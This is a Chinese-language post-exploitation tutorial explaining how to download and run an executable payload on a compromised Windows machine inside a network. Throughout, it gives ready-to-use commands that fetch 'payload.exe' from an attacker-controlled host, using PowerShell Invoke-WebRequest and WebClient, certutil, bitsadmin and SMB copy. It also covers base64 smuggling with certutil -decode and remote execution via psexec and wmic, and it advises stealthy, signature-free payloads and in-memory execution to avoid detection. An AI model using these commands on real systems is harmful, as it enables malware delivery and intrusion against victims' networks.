 ### 内网文件 exe 落地怎么去做，用什么命令去执行来落地

**1. 文件落地前的准备**

在执行文件落地之前，你需要做好以下准备工作：

- **选择合适的工具**：你需要一个轻量、隐蔽、功能强大的工具，例如 **`meterpreter`**，它支持直接在内存中执行 Shellcode，避免文件落地。如果你必须落地文件，可以选择用 C++ 或 Go 等语言编写的、没有明显恶意特征的自定义 Payload
- **设置文件服务器**：在你的攻击机上，你需要搭建一个简单的 Web 服务器或 SMB 服务器，以便目标机器能够下载文件
  - **HTTP 服务器**：在 Python 中，你可以用一行命令快速启动一个 HTTP 服务器：`python3 -m http.server 80`
  - **SMB 服务器**：使用 **`Impacket`** 工具包中的 **`smbserver.py`** 脚本，可以搭建一个 SMB 服务器

**2. 内网文件落地常用命令**

一旦你获得了目标机器的权限，就可以使用以下命令来下载文件：

**方法一：使用 PowerShell （推荐）**

PowerShell 是现代 Windows 系统自带的强大脚本语言，也是渗透测试中最常用的文件落地工具

- **使用 `Invoke-WebRequest` 或 `iwr`** 这是最常用的方法，它可以在后台下载文件，并且功能强大

  ```powershell
  # 下载文件并保存到指定路径
  Invoke-WebRequest -Uri http://<攻击机IP>/payload.exe -OutFile C:\Users\Public\payload.exe
  # 或者使用别名
  iwr http://<攻击机IP>/payload.exe -OutFile C:\Users\Public\payload.exe
  ```

- **使用 `.NET` 对象** 这种方法更隐蔽，因为它直接调用 .NET 库，而不是通过一个特定的 cmdlet

  ```powershell
  $WebClient = New-Object System.Net.WebClient
  $WebClient.DownloadFile("http://<攻击机IP>/payload.exe", "C:\Users\Public\payload.exe")
  ```

**方法二：使用 `certutil`**

`certutil` 是 Windows 系统自带的命令行工具，通常用于管理证书，但它也提供了下载文件的功能

- **下载命令**

  ```cmd
  certutil -urlcache -split -f "http://<攻击机IP>/payload.exe" C:\Users\Public\payload.exe
  ```

  - `-urlcache`：允许从 URL 下载
  - `-split`：将下载的文件保存为独立文件
  - `-f`：强制下载文件

**方法三：使用 `bitsadmin`**

`bitsadmin` 是 Windows 后台智能传输服务（BITS）的命令行工具。BITS 服务主要用于在网络中断后自动恢复下载，非常适合在不稳定网络环境下使用

- **下载命令**

  ```cmd
  bitsadmin /transfer myjob http://<攻击机IP>/payload.exe C:\Users\Public\payload.exe
  ```

**方法四：使用 SMB 协议**

如果你在攻击机上搭建了 SMB 服务器，可以直接通过 SMB 协议传输文件，这在许多环境中比 HTTP 更隐蔽

- **下载命令**

  ```cmd
  copy \\<攻击机IP>\share\payload.exe C:\Users\Public\payload.exe
  ```

**方法五：将文件内容写入文件**

这是一个非常隐蔽的方法，特别适用于 Shell 权限受限，无法直接执行下载命令的情况

- **原理**：你将文件的二进制内容转换为文本格式（例如十六进制字符串），然后通过 `echo` 命令或 `certutil -decode` 等方式，将文本内容写入一个新文件，并将其解码为可执行文件

- **示例**

  1. 在攻击机上，将 `payload.exe` 转换为 Base64 编码：`base64 payload.exe > payload.b64`

  2. 在目标机上，使用 `echo` 将 Base64 字符串写入一个临时文件：

     ```powershell
     echo <base64编码字符串> > C:\Users\Public\payload.b64
     ```

  3. 使用 `certutil` 将 Base64 文件解码为可执行文件：

     ```cmd
     certutil -decode C:\Users\Public\payload.b64 C:\Users\Public\payload.exe
     ```

**3. 文件落地后的执行**

文件落地成功后，你需要执行它。执行命令取决于你获得的权限

- **在命令行中直接执行** 如果你已经获得了 Shell，可以直接输入文件路径来执行：`C:\Users\Public\payload.exe`

- **使用 `psexec`** 如果你有域管理员权限，可以使用 `psexec` 在目标机器上远程执行文件

- **使用 WMI** 利用 **Windows Management Instrumentation (WMI)**，你可以通过远程方式在目标机器上执行进程

  ```powershell
  wmic process call create "C:\Users\Public\payload.exe"
  ```